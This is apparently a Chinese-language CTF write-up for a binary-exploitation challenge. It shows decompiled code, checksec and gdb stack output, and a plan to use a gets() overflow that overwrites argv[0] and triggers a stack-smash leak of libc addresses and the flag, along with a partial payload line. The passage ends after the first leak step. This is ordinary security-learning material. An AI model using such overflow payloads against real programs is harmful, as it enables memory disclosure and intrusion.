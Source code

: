 ```C
  if ( !strcmp(&buf, &s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0LL;
}
```

## 2. 漏洞利用
首先查看程序开启的漏洞缓解机制，发现已开启 Canary 和 NX，未开启 PIE。
```python
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
由于程序中 sub_400A11() 函数使用 fork 子进程的方式允许用户有 3 次猜测 flag 的机会，同时又将 flag 读入栈中，因此可利用 Stack smash 进行 3 次内存泄漏获得 flag。具体利用思路如下：
- 通过栈溢出漏洞覆盖 argv[0] 为 `__libc_start_main` 的 got 表项，触发 Stack smash 可泄露 `__libc_start_main` 函数地址，利用给出的 libc 文件可计算得到 libc 基地址；
- 计算出 environ 在内存中的地址，第二次利用栈溢出漏洞覆盖 argv[0] 为 `environ` ，泄露出 environ 的值，即指向环境变量的栈地址；
- 根据栈内存中 flag 与 environ 值的偏移量计算出 flag 的栈地址，再次利用栈溢出漏洞覆盖 argv[0] 为 flag 的栈地址，从而可读取 flag 的值。

### 1）泄露 libc 基址
首先，从下图栈内存信息可知缓冲区 s2 地址为 0x7fffffffdb60， argv[0] 地址为 0x7fffffffdc88，从而可计算出 s2 与 argv[0] 间的偏移量为 0x128（0x7fffffffdc88-0x7fffffffdb60）。
```python
[-------------------------------------code-------------------------------------]
   0x400b1b:    mov    rdi,rax
   0x400b1e:    mov    eax,0x0
   0x400b23:    call   0x400830 <gets@plt>
=> 0x400b28:    lea    rdx,[rbp-0x40]
   0x400b2c:    lea    rax,[rbp-0x70]
   0x400b30:    mov    rsi,rdx
   0x400b33:    mov    rdi,rax
   0x400b36:    call   0x400820 <strcmp@plt>
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000400b28 in ?? ()
gdb-peda$ stack 20
0000| 0x7fffffffdb00 --> 0x7fffffffdc88 --> 0x7fffffffe091 ("/home/lc/Desktop/guess/guess")
0008| 0x7fffffffdb08 --> 0x100000000 
0016| 0x7fffffffdb10 --> 0x0 
0024| 0x7fffffffdb18 --> 0x3 
0032| 0x7fffffffdb20 --> 0x0 
0040| 0x7fffffffdb28 --> 0x3 
0048| 0x7fffffffdb30 ("flag{43861991f7e943090e257863eec75961}\n")
0056| 0x7fffffffdb38 ("61991f7e943090e257863eec75961}\n")
0064| 0x7fffffffdb40 ("943090e257863eec75961}\n")
0072| 0x7fffffffdb48 ("57863eec75961}\n")
0080| 0x7fffffffdb50 --> 0xa7d3136393537 ('75961}\n')
0088| 0x7fffffffdb58 --> 0x0 
0096| 0x7fffffffdb60 ('A' <repeats 16 times>)
0104| 0x7fffffffdb68 ("AAAAAAAA")
0112| 0x7fffffffdb70 --> 0x0 
```
因此可构造以下 payload 将 argv[0] 覆盖为 `__libc_start_main` 的 got 表项，可泄露出 `__libc_start_main` 函数在内存中的地址，从而计算出 libc 的基址。
```python
payload = 'A' * 0x128 + p64(libc_start_main_got)
libc_base_addr = libc_start_main_addr - libc.symbols['__libc_start_main']
```